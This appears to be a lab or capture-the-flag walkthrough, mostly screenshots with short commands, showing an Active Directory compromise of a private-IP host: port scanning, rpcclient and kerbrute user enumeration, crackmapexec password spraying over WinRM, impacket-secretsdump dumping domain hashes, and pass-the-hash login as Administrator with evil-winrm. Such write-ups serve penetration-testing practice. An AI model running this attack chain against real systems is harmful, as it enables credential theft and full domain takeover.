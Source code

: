 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/03ab72ad-f5ce-4cba-8cfc-4cef30fce25d)
```
ping 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ee180358-9104-4781-b028-c8db297edcd5)
```
nmap -p- 192.168.2.3 -v -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cdb46432-79fe-41c5-be07-fef63c7ea190)
```
ftp 192.168.2.1
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0eb4650a-2635-4810-b63a-d1b30ae59d85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fb1cc7cd-108e-4619-a67b-b370e1c807e4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d850e7a-db8e-4091-a359-e7c1594a54ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec6b3d6b-97a9-4440-af9e-cdcbc3259206)
```
rpcclient -U login%pass -c "querydispinfo" 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/75d7b9ad-bcce-49e7-9cc5-7bb1f191534a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aeb599c2-ed92-435b-924e-a750977ca5ff)
```
 nmap -p- 192.168.2.3 -v -sC 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dfd819e-5919-4085-8e8d-9c5b9759cde8)

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/
https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.3 users.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db1c1f14-a345-4d96-a554-502f58dae018)
```
crackmapexec winrm 192.168.2.3 -d codeby.cdb -u users.txt -p 'password'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0651e750-814a-4a26-927b-91fae9393692)
```
evil-winrm -i 192.168.2.3 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c55a09ff-833f-4ad3-9fc5-c4effee3d876)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a87855cf-1906-4349-a14a-de031e97b441)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d5ba939e-86ef-43e7-a21f-03145f892c10)
```
impacket-secretsdump codeby.cdb/aleksey.ibragimov:'PASS'@192.168.2.3 -just-dc
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2a486bea-d2cd-4195-98bf-d3779e0e48e8)
```
evil-winrm -i 192.168.2.3 -u Administrator -H HASH
``
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2b88467f-2bc3-466e-8d74-6b7475b3c884)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f80ec901-dfd3-4db1-8ada-637789291c80)

